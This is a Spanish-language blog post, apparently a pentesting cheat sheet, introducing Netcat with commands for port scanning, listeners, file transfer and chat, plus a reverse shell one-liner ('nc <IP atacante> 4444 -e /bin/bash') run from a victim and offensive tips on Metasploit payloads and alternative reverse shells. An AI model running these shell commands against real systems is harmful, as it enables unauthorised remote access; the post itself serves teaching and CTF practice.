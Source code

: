 ```yaml
---
layout: post
title: "Netcat: El cuchillo suizo del hacking en la red"
author: "l1ttl3bugc4t"
date: "2025-05-30"
tags: [Netcat, Hacking, Pentesting, Red Team, Escaneo, Shells, Network]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


**Netcat**, también conocido como `nc`, es como ese amigo que sabe hacer de todo:  
**escanea puertos, escucha conexiones, abre shells, transfiere archivos... y más.**  
En el mundo del pentesting, es un **must-have felino** 😼🛠️

---

## 🧠 ¿Qué es Netcat?

Netcat es una herramienta en línea de comandos que permite interactuar con conexiones de red TCP/UDP.  
Su simplicidad y versatilidad la convierten en una navaja suiza de la red.

---

## 🚀 ¿Para qué se usa?

- Escanear puertos
- Enviar/recibir datos a través de sockets
- Crear conexiones reversas o bind shells
- Transferir archivos entre hosts
- Actuar como cliente o servidor

---

## 🛠️ Sintaxis básica

```bash
nc [opciones] [host] [puerto]
```

---

## 🎯 Ejemplos útiles en pentesting

### 📡 Escaneo de puertos
```bash
nc -zv 192.168.1.1 20-80
```
> `-z`: escaneo sin enviar datos  
> `-v`: modo verbose

### 🧪 Servidor de escucha (bind shell)
```bash
nc -lvp 4444
```

### 🐚 Conexión reversa desde la víctima
```bash
nc <IP atacante> 4444 -e /bin/bash
```
> `-e`: ejecuta un programa cuando se conecta (ojo: puede no estar disponible en versiones modernas por seguridad)

### 🔁 Transferencia de archivos
En la máquina receptora:
```bash
nc -lvp 4444 > archivo.txt
```

En la máquina emisora:
```bash
nc <IP objetivo> 4444 < archivo.txt
```

### 🐾 Chat entre dos equipos
Host A:
```bash
nc -lvp 1234
```

Host B:
```bash
nc <IP de A> 1234
```

---

## 🔐 Tips ofensivos

- Usa Netcat junto con reverse shells en payloads de Metasploit
- Muy útil en CTFs para "catch the flag" o comunicarse entre máquinas comprometidas
- Si no tienes `nc`, a veces puedes encontrarlo como `ncat` (versión de Nmap)

---

## 🛡️ Alternativas cuando Netcat no funciona

- `socat`: más potente, pero más complejo
- `bash -i` con redirección de sockets
- `powershell` en Windows para conexiones reversas

---

## 🚩 Conclusión

**Netcat** es simple pero poderoso.  
Cuando se trata de conexiones crudas, shells improvisadas o escaneo ligero, este comando puede sacarte de muchos apuros… o meterte en problemas, si estás del lado oscuro 😏

> ✨ _"El gato que sabe escuchar... también sabe atacar."_ — **l1ttl3bugc4t**

---
